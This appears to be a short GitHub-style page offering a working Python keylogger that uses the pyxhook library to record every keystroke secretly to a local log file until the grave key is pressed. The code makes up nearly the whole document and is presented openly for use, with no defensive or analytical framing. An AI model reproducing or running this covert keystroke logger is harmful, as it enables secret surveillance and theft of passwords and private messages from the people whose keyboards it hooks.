 # keylogger
simple keylogger in which all you keyboard activities will be saved in a log file secretly.


import pyxhook
#change this to your log file's path
log_file='/home/wavenet/Desktop/mrinal/file.log'

#this function is called everytime a key is pressed. onekeypress is the function which execute evrytime a key i9s pressed.
def OnKeyPress(event):
  act=open(log_file,'a')
  act.write(event.Key)
  act.write('\n')

  if event.Ascii==96: #96 is the ascii value of the grave key
    act.close()
    new_hook.cancel()

new_hook=pyxhook.HookManager()
new_hook.KeyDown=OnKeyPress
new_hook.HookKeyboard()
new_hook.start()
